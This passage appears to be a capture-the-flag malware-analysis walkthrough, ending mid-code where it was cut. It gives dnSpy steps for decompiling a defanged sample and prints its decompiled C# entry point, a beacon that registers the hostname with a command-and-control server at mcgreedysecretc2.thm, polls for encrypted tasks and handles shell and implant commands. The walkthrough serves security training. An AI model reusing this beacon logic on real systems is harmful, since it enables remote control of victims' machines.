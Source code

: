 
## STEPS

1. Deploy Machine
2. RDP into machine
3. Use DNSPY to decomple the malware
4. DNSPY
   1. Open file
      1. > file -> open -> "Desktop -> artefacts -> JuicyTomaTOY_defanged"
   2. Explore file
      1. Entry point: JuicyTomatoy.Program.Main -> click on Main

         ```c#
            using System;
            using System.Diagnostics;
            using System.IO;
            using System.Linq;
            using System.Net;
            using System.Security.Cryptography;
            using System.Text;
            using System.Threading;

            namespace JuicyTomatoy
            {
               // Token: 0x02000002 RID: 2
               internal class Program
               {
                  // Token: 0x06000001 RID: 1 RVA: 0x00002048 File Offset: 0x00000248
                  private static void Main(string[] args)
                  {
                     string hostName = Dns.GetHostName();
                     string str = "http://mcgreedysecretc2.thm";
                     string url = str + "/reg";
                     string data = "name=" + hostName;
                     string str2 = Program.PostIt(url, data);
                     int count = 15000;
                     bool flag = false;
                     for (;;)
                     {
                        Program.Sleeper(count);
                        string url2 = str + "/tasks/" + str2;
                        string url3 = str + "/results/" + str2;
                        string it = Program.GetIt(url2);
                        if (!string.IsNullOrEmpty(it))
                        {
                           string[] array = Program.Decryptor(it).Split(new char[]
                           {
                              ' '
                           });
                           string a = array[0];
                           string text = "";
                           if (array.Length > 1)
                           {
                              text = string.Join(" ", array.Skip(1).ToArray<string>());
                           }
                           if (!(a == "sleep"))
                           {
                              if (!(a == "shell"))
                              {
                                 if (!(a == "implant"))
                                 {
                                    if (a == "quit")
                                    {
                                       flag = true;
